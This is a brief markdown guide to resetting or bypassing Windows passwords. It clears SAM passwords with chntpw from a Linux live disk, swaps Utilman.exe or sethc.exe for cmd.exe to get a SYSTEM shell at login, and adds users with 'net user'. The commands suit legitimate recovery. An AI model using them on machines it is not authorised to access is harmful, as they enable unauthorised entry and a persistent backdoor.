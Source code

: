 # Windows Password

Bypass, change or remove Windows password.

## Reset the Windows password with Linux

Boot with Linux live disk.

Mount Windows system (if necessary):

```bash
sudo blkid
sudo ntfs-3g -o force /dev/sda1 /mnt
```

Remove Windows password:

```bash
sudo apt install chntpw
cd /mnt/Windows/System32/config
chntpw -l SAM
chntpw -u {Username} SAM
```

* 1 - Clear user password
* q - quit
* y - Hive (Save)

## Windows installation medium

* Boot from Windows installation disk
* Start installation
* Computer Repair Options > Troubleshoot > (Advanced Options) > Command Prompt

Show drives:

```bash
wmic logicaldisk get caption,name,volumename
```

### Hack: Command

A shell with elevated rights is started by a small hack.
You become a system user (nt-autorität\system).

* Use a "Hack"
* Check out the useful Windows commands (below)

#### Hack: Easier operation (Erleichterte bedienung)

Clicking on easier operation at the bottom right opens the Command.

```bash
cd C:\Windows\System32
rename Utilman.exe Utilman.exe.bak
copy cmd.exe Utilman.exe
```

### Hack: Press 5x Shift (If activated)

If it is activated (default), you can press 5x Shift in the Windows login and the Command appears.

```bash
cd C:\Windows\System32
rename sethc.exe sethc.exe.bak
copy cmd.exe sethc.exe
```

### Useful Windows commands

```bash
# Change a user's password
net user {username} {password}

# Add new user
net user {username} {password} /add

# Reboot immediately
shutdown /r /t 0
```
